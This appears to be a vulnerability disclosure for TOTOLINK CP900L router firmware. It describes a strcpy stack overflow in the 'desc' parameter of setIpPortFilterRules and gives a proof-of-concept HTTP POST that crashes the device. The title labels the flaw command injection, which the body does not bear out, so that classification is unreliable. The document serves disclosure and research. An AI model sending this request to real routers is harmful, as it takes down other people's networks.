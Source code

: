 # TOTOLINK CP900L V4.1.5cu.798_B20221228 command injection

### Product Information

Product: TOTOLINK CP900L Firmware Version: V4.1.5cu.798_B20221228  Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

TOTOLINK CP900L V4.1.5cu.798_B20221228 was discovered to contain a stack overflow via the desc parameter in the function **setIpPortFilterRules**![image-20240527132902868](./image-20240527132902868.png)

By constructing specific parameters, v9 can be copied onto the stack through strcpy, causing a denial of service

![image-20240527133051302](./image-20240527133051302.png)



### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.1
Connection: close


{
    "topicurl": "setting/setIpPortFilterRules",
    "addEffect": "2",
    "ip": "1",
    "sPort": "1",
    "ePort": "1",
    "proto": "TCP",
    "desc": "a"*0x100
}

```



